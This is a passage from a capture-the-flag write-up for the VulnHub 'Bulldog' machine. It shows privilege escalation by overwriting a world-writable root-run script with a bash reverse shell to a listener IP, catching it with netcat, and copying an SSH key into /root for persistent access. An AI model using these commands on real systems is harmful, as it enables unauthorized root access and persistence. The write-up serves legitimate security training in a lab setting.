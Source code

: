 the script is world writable:

    django@bulldog:~$ ls -l /.hiddenAVDirectory/AVApplication.py
    -rwxrwxrwx 1 root root 157 Aug 25 22:12 /.hiddenAVDirectory/AVApplication.py


that the script is just a place holder:


    django@bulldog:~$ cat /.hiddenAVDirectory/AVApplication.py
    #!/usr/bin/env python

    # Just wanted to throw this placeholder here really quick.
    # We will put the full AV here when the vendor is done making it.
    # - Alan

We can just get a reverse root shell by modifying the file:

    django@bulldog:~$ cat /.hiddenAVDirectory/AVApplication.py
    #!/bin/bash
    bash -i >& /dev/tcp/10.0.2.15/4444 0>&1

And listen client side:

    root@kalili:~# netcat -l -p 4444
    bash: cannot set terminal process group (2145): Inappropriate ioctl for device
    bash: no job control in this shell
    root@bulldog:~# id
    id
    uid=0(root) gid=0(root) groups=0(root)
    ls /root
    congrats.txt
    cat /root/congrats.txt
    Congratulations on completing this VM :D That wasn't so bad was it?
    Let me know what you thought on twitter, I'm @frichette_n
    As far as I know there are two ways to get root. Can you find the other one?
    Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!

Yeah the other one include reverse engineering which is not my thing :)

In order to have a complete interactive shell we may just copy our ssh key on the root folder:

    cp /home/django.ssh /root -r

And connect with ssh:

    root@kalili:~# ssh 10.0.2.4 -lroot -p23
    Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-87-generic x86_64)
    <SNIP>
    root@bulldog:~#

DONE.

Thanks to [@frichette_n](https://twitter.com/@frichette_n) for the machine and thanks to [@vulnub](https://twitter.com/VulnHub).
